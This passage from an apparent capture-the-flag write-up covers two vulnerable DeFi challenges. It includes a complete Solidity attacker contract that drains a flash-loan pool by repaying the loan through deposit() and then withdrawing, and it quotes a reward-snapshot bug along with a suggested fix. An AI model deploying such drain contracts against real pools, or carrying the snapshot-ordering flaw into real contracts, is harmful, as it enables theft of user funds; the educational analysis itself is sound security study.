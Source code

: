 ### 4. Side Entrance

This challenge is another flash loan contract and is also quite straightforward. The pool contract only verifies if its balance is lower than before the flash loan execution. Therefore, our solution would be to initiate a flash loan and then use the pool's `deposit()` function to return the funds, allowing us to `withdraw()` it afterwards.

```sol
contract SideEntranceLenderPoolAttacker {

    SideEntranceLenderPool pool;

    constructor(address addr) {
        pool = SideEntranceLenderPool(addr);
    }

    function attack() public {
        pool.flashLoan(address(pool).balance);
    }

    function execute() public payable {
        pool.deposit{value: msg.value}();
    }

    function withdraw() public {
        pool.withdraw();
        (bool success, ) = payable(msg.sender).call{value: address(this).balance}("");
        require(success, "Failed to withdraw");
    }

    // Do not forget this, as receive function is required for receiving eth.
    receive() external payable {}
}

```

### 5. The Rewarder

This challenge involves several contracts, with `FlashLoanerPool` and `TheRewarderPool` being the key ones. `TheRewarderPool` takes a token snapshot every five days and allocates reward tokens based on the amount of DVT tokens (liquidity tokens) deposited. Our objective is to claim the maximum rewards, but since we start without any DVT tokens and there's a flash loan pool available, it's clear that the exploit likely involves using a flash loan for reward claiming.

The vulnerabilitiy is in the `deposit()` function of `TheRewarderPool`. The crucial point is that the token snapshot occurs AFTER tokens are minted to the account, meaning we can execute a flash loan to claim rewards and then return it all in a single transaction. A simple way to fix this would be moving the snapshot before account token minting.

```sol
    function deposit(uint256 amount) external {
        if (amount == 0) {
            revert InvalidDepositAmount();
        }

        accountingToken.mint(msg.sender, amount);
        distributeRewards(); // <= Snapshot is taken AFTER token minting.

        SafeTransferLib.safeTransferFrom(
            liquidityToken,
            msg.sender,
            address(this),
            amount
        );
    }
```